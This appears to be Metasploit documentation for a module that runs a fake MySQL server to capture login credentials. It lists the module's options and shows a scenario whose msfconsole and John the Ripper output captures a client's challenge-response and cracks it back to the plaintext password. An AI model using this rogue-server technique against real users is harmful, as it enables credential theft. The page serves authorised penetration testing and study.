 This module creates a mock MySQL server which accepts credentials.  Upon receiving a login attempt, an `ERROR 1045 (2800): Access denied` error is thrown.

## Verification Steps

  1. Start msfconsole
  2. Do: ```use auxiliary/server/capture/mysql```
  3. Do: ```run```

## Options

### CHALLENGE

  The MySQL 16 byte challenge used in the authentication.  Default is `112233445566778899AABBCCDDEEFF1122334455`.

### JOHNPWFILE

  Write a file containing a John the Ripper format for cracking the credentials.  Default is ``.

### CAINPWFILE

  Write a file containing a Cain & Abel format for cracking the credentials.  Default is ``.

### SRVVERSION

  The MySQL version to print in the login banner.  Default is `5.5.16`.

### SSL

  Boolean if SSL should be used.  Default is `False`.

### SSLCert

  File path to a combined Private Key and Certificate file.  If not provided, a certificate will be automatically
  generated.  Default is ``.

## Scenarios

### MySQL with MySQL Client and JTR Cracking

Server:

```
msf > use auxiliary/server/capture/mysql 
msf auxiliary(server/capture/mysql) > set johnpwfile /tmp/mysql.logins
johnpwfile => /tmp/mysql.logins
msf auxiliary(server/capture/mysql) > run
[*] Auxiliary module running as background job 0.
msf auxiliary(server/capture/mysql) > 
[*] Started service listener on 0.0.0.0:3306 
[*] Server started.
[+] 127.0.0.1:59604 - User: admin; Challenge: 112233445566778899aabbccddeeff1122334455; Response: 46677c2d9cac93da328c4321060c125db759925e
```

Client:

```
root@kali:~# mysql -u admin -ppassword1 -h 127.0.0.1
ERROR 1045 (28000): Access denied for user 'admin'@'127.0.0.1' (using password: YES)
```

JTR:

```
root@kali:~# john /tmp/mysql.logins_mysqlna 
Using default input encoding: UTF-8
Loaded 1 password hashes with no different salts (mysqlna, MySQL Network Authentication [SHA1 32/64])
Press 'q' or Ctrl-C to abort, almost any other key for status
password1        (admin)
1g 0:00:00:00 DONE 2/3 (2018-11-08 21:05) 20.00g/s 16800p/s 16800c/s 16800C/s password1
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```
